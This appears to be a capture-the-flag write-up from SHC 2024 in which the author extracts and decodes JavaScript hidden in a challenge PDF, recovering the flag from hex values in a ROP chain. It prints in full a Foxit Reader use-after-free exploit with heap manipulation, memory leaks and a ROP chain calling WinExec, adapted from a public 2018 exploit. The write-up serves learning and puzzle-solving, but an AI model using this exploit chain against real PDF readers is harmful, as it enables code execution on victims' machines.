 +++
title = 'Shc 2024_printer Destroyer Format'
date = 2024-05-06T02:59:11+02:00
draft = false
tags = ["SHC-2024", "reverse-engineering"]
description = ""
showFullContent = false
+++

> I received a todo list from IT which I really need to complete.  
> Clippy is telling lies and says it is not safe to open this PDF :(  
> Stupid Clippy  

For that challenge, we got a pdf file in which we can expect some sort of macro if we believe what we’re told in the intro.

The tool `pdfextract` from the origami repository is incredibly helpful, as it extracts everything we might be interested in for a ctf challenge : images, streams, scripts and attachments, and creates a directory in which it puts everything.

```Bash
➜  printer-destroyer-format pdfextract todo-list.pdf
➜  printer-destroyer-format tree
.
├── todo-list.dump
│   ├── attachments
│   ├── fonts
│   │   └── BCDFEE+Aptos
│   ├── images
│   ├── scripts
│   │   └── script_3292974706880921474.js
│   └── streams
│       ├── stream_17.dmp
│       ├── stream_4.dmp
│       ├── stream_49.dmp
│       └── stream_65.dmp
└── todo-list.pdf
```

As we can see, it extracted a script (which was huge hex-encoded block in the hexdump, I had to decode it manually). It looks like this :

```JavaScript
var heap_ptr = 0;
var foxit_base = 0;
var pwn_array = [];

function prepare_heap(size) {
    var arr = new Array(size);
    for (var i = 0; i < size; i++) {
        arr[i] = this.addAnnot({ type: "Text" });;
        if (typeof arr[i] == "object") {
            arr[i].destroy();
        }
    }
}

function gc() {
    const maxMallocBytes = 128 * 0x100000;
    for (var i = 0; i < 3; i++) {
        var x = new ArrayBuffer(maxMallocBytes);
    }
}

function alloc_at_leak() {
    for (var i = 0; i < 0x64; i++) {
        pwn_array[i] = new Int32Array(new ArrayBuffer(0x40));
    }
}

function control_memory() {
    for (var i = 0; i < 0x64; i++) {
        for (var j = 0; j < pwn_array[i].length; j++) {
            pwn_array[i][j] = foxit_base + 0x01a7ee23; // push ecx; pop esp; pop ebp; ret 4
        }
    }
}

function leak_vtable() {
    var a = this.addAnnot({ type: "Text" });

    a.destroy();
    gc();

    prepare_heap(0x400);
    var test = new ArrayBuffer(0x60);
    var stolen = new Int32Array(test);

    var leaked = stolen[0] & 0xffff0000;
    foxit_base = leaked - 0x01f50000;
}

function leak_heap_chunk() {
    var a = this.addAnnot({ type: "Text" });
    a.destroy();
    prepare_heap(0x400);

    var test = new ArrayBuffer(0x60);
    var stolen = new Int32Array(test);

    alloc_at_leak();
    heap_ptr = stolen[1];
}

function reclaim() {
    var arr = new Array(0x10);
    for (var i = 0; i < arr.length; i++) {
        arr[i] = new ArrayBuffer(0x60);
        var rop = new Int32Array(arr[i]);

        rop[0x00] = heap_ptr;                // pointer to our stack pivot from the TypedArray leak
        rop[0x01] = foxit_base + 0x01a11d09; // xor ebx,ebx; or [eax],eax; ret
        rop[0x02] = 0x72727272;              // junk
        rop[0x03] = foxit_base + 0x00001450  // pop ebp; ret
        rop[0x04] = 0xffffffff;              // ret of WinExec
        rop[0x05] = foxit_base + 0x0069a802; // pop eax; ret
        rop[0x06] = foxit_base + 0x01f2257c; // IAT WinExec
        rop[0x07] = foxit_base + 0x0000c6c0; // mov eax,[eax]; ret
        rop[0x08] = foxit_base + 0x00049d4e; // xchg esi,eax; ret
        rop[0x09] = foxit_base + 0x00025cd6; // pop edi; ret
        rop[0x0a] = foxit_base + 0x0041c6ca; // ret
        rop[0x0b] = foxit_base + 0x000254fc; // pushad; ret


        rop[0x0c] = 0x32636873
        rop[0x0d] = 0x7b343230
        rop[0x0e] = 0x70696c63
        rop[0x0f] = 0x635f7970
        rop[0x10] = 0x5f746e61
        rop[0x11] = 0x706c6568
        rop[0x12] = 0x756f795f
        rop[0x13] = 0x7d21215f
        rop[0x14] = 0x00000000
        rop[0x15] = 0x00000000
        rop[0x16] = 0x00000000


        rop[0x17] = 0x00000000; // adios, amigo :) (from original exploit from https://www.exploit-db.com/exploits/44941)
    }
}

function trigger_uaf() {
    var that = this;
    var a = this.addAnnot({ type: "Text", page: 0, name: "uaf" });
    var arr = [1];
    Object.defineProperties(arr, {
        "0": {
            get: function () {

                that.getAnnot(0, "uaf").destroy();

                reclaim();
                return 1;
            }
        }
    });

    a.point = arr;
}

function main() {
    leak_heap_chunk();
    leak_vtable();
    control_memory();
    trigger_uaf();
}

main();
```

Looking at the code, we can quickly understand that it’s a pretty sophisticated pwn exploit, as we see some heap manipulation. Searching through exploit-db for the first lines of that exploit, we discover that it’s the exact copy of a Foxit Reader exploit from 2018. Actually, _not an exact copy_ as we see that there’s something strange in the shellcode, something not commented, looking like hexadecimal :

```JavaScript
rop[0x0c] = 0x32636873
rop[0x0d] = 0x7b343230
rop[0x0e] = 0x70696c63
rop[0x0f] = 0x635f7970
rop[0x10] = 0x5f746e61
rop[0x11] = 0x706c6568
rop[0x12] = 0x756f795f
rop[0x13] = 0x7d21215f
rop[0x14] = 0x00000000
rop[0x15] = 0x00000000
rop[0x16] = 0x00000000
```

If we go and decode these values, we get the flag : `shc2024{clippy_cant_help_you_!!}`

